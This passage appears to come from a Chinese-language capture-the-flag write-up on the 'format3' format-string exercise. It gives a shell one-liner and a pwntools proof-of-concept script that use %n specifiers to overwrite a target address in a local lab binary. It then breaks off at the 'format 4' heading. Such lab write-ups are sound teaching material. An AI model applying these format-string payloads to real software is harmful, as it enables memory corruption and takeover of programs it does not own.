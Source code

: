 ```sh
python -c "print b'\xF4\x96\x04\x08' + b'\xF5\x96\x04\x08' + b'\xF6\x96\x04\x08' + b'\xF7\x96\x04\x08' + b'%52c' + b'%12$n' + b'%17c' + b'%13$n' + b'%173c' + b'%14$n' + b'%15$n'" | ./format3
```

与刚才的 `0x55` 到 `0x02` 一致，所以这次依然借一位，至此得到了 `flag`

`poc` ：

```python
# /usr/env/bin python
# -*- coding: utf-8 -*-

from pwn import *


def main():
    target = []
    for nums in range(4):
        target.append(struct.pack('<I', 0x080496F4+nums))
    payload = b''.join(target) + b'%52c' + b'%12$n' + b'%17c' + b'%13$n' + b'%173c' + b'%14$n' + b'%255c' + b'%15$n'
    exp_file = process('./format3')
    exp_file.sendline(payload)
    exp_file.interactive()


if __name__ == '__main__':
    main()
```



### 0x215 format 4

依旧直接看 `vuln` :
